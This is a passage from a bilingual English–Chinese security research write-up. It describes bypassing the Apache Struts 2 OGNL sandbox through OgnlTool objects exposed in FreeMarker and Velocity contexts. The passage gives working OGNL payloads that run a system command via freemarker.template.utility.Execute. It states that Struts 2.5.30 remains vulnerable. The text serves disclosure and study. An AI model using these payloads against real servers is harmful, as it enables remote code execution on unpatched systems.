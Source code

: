 ```java

            return Ognl.getValue(ognlUtil.compile(expr), context);

        } catch (OgnlException e) {

            return null;

        }

    }

}
```

We can get an instance of `OgnlTool` from both FreeMarker and Velocity post-invocation contexts:  
我们可以从 FreeMarker 和 Velocity 后调用上下文中获取 `OgnlTool` 的实例：

```less
#request['.freemarker.TemplateModel'].get('ognl')
```

Or

```less
#request['.KEY_velocity.struts2.context'].internalGet('ognl')
```

For FreeMarker’s case, it will come up wrapped with a Template model but we can just unwrap it and use it to get RCE:  
对于 FreeMarker 的情况，它会出现一个模板模型，但我们可以打开它并使用它来获得 RCE：

```kotlin
(#a=#request.get('.freemarker.Request').objectWrapper.unwrap(#request['.freemarker.TemplateModel'].get('ognl'),'org.apache.struts2.views.jsp.ui.OgnlTool'))+

(#a.findValue('(new freemarker.template.utility.Execute()).exec({"whoami"})',null))
```

Or, even simpler: 或者，更简单：

```less
#request['.freemarker.TemplateModel'].get('ognl').getWrappedObject().findValue('(new freemarker.template.utility.Execute()).exec({"whoami"})',{})
```

`OgnlTool` was [inadvertently fixed](https://github.com/apache/struts/commit/5cd409d382e00b190bfe4e957c4167d06b8f9da1#diff-55821720c975d84350d796bec09aa366cc2b2861fb7e12f223cc5a4453b55640) when Struts 6.0.0 was released by upgrading to OGNL 3.2.2 which always requires a `MemberAccess`. But the latest Struts 2 version (2.5.30) is still vulnerable to this payload.  
当 Struts 6.0.0 通过升级到 OGNL 3.2.2 发布时， `OgnlTool` 被无意中修复，OGNL 3.2.2 总是需要 `MemberAccess` 。但是最新的 Struts2 版本（2.5.30）仍然容易受到这种负载的攻击。

#### StrutsUtil[](#strutsutil)

Another object that can be accessed in the post-invocation context is an instance of `org.apache.struts2.util.StrutsUtil`. There are plenty of interesting methods in here:  
另一个可以在调用后上下文中访问的对象是 `org.apache.struts2.util.StrutsUtil` 的实例。这里有很多有趣的方法：
